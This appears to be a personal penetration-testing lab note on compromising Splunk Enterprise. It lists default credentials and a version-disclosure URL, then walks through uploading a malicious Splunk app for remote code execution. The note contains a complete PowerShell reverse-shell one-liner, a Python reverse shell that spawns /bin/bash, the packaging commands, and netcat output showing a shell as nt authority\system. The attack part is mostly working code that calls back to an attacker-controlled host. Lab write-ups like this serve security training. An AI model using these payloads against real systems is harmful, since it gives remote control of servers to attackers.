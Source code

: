 ### Enumberation

The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.

Older systems use the default creds as `admin:changeme`

Navigating to the following URL can give us the version number of Splunk: `https://10.129.201.50:8000/en-GB/manager/launcher/apps/local`

![[Pasted image 20250202153350.png]]

### Attack

Using the following, we can get a reverse shell:

```bash
git clone https://github.com/0xjpuff/reverse_shell_splunk.git
```
#### Windows

Update run.ps1 with the IP and port details:

```bash
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('<Your_IP>',<Your_Port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

And then tar the file

```bash
tar -cvzf updater.tar.gz reverse_shell_splunk/
reverse_shell_splunk/
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/bin/run.ps1
```

![[Pasted image 20250202154437.png]]

Select the .tar.gz file and immediately and reverse shell should be obtained:

```bash
sudo nc -lvp 4443        
Listening on 0.0.0.0 4443
Connection received on 10.129.201.50 50992
  
PS C:\Windows\system32> whoami
nt authority\system
```

#### Linux

Pretty much the same process as windows, but update the rev.py instead:

```python
import sys,socket,os,pty

ip="<Your_IP>"
port="<Your_Port"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

